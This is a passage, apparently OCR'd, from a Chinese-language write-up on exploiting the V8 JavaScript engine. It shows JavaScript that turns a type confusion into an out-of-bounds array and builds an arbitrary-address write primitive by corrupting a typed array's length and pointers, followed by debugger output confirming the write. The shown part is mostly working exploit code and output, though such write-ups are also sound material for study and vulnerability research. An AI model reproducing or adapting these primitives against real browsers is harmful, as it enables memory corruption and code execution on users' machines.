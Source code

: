 ```javascript
    }

    let len = payload.length%8;
    tmp = 0n;
    for(let i=0n; i<len; i++){
        tmp += BigInt(payload[lenInt*8n+i])*(0x1n<<(8n*i));
    }
    sc.push(tmp);
    return sc;
}
// 任意地址写
function arw_write(addr, payload)
{
	sc = ByteToBigIntArray(payload);

    oob_array[uint64_length_offset] = i2f(BigInt(sc.length));
    oob_array[uint64_baseptr_offset] = i2f(0n);
	oob_array[uint64_externalptr_offset] = i2f(addr);
	console.log("test!!!" + "uint64_externalptr_offset:" + hex(f2i(oob_array[uint64_externalptr_offset])));
    for(let i = 0; i < sc.length; i+=1) {
		%SystemBreak();
		uint64_arw[i] = sc[i];
		%SystemBreak();
    }

    oob_array[uint64_length_offset] = uint64_length;
    oob_array[uint64_baseptr_offset] = uint64_baseptr_ptr;
    oob_array[uint64_externalptr_offset] = uint64_externalptr_ptr;
}

confusion_to_oob();
get_arw();
```

随便写了个地址和数值来测试效果，断下来看看有没有成功：

```shell
[+] convert confusion to oob......
        oob_array.length: 0xc00c
[+] get absolute read/write access......
        uint64_length_offset: 0x2
        uint64_externalptr_offset: 0x3dc00000007
        uint64_baseptr_offset: 0x8087cd5
test!!!uint64_externalptr_offset:0x3dc0808888f

0:000> dd 0x3dc0808888f
000003dc`0808888f  00000000 00000000 00000000 00000000
000003dc`0808889f  00000000 00000000 00000000 00000000
000003dc`080888af  00000000 00000000 00000000 00000000
000003dc`080888bf  00000000 00000000 00000000 00000000
000003dc`080888cf  00000000 00000000 00000000 00000000
000003dc`080888df  00000000 00000000 00000000 00000000
000003dc`080888ef  00000000 00000000 00000000 00000000
000003dc`080888ff  00000000 00000000 00000000 00000000
```

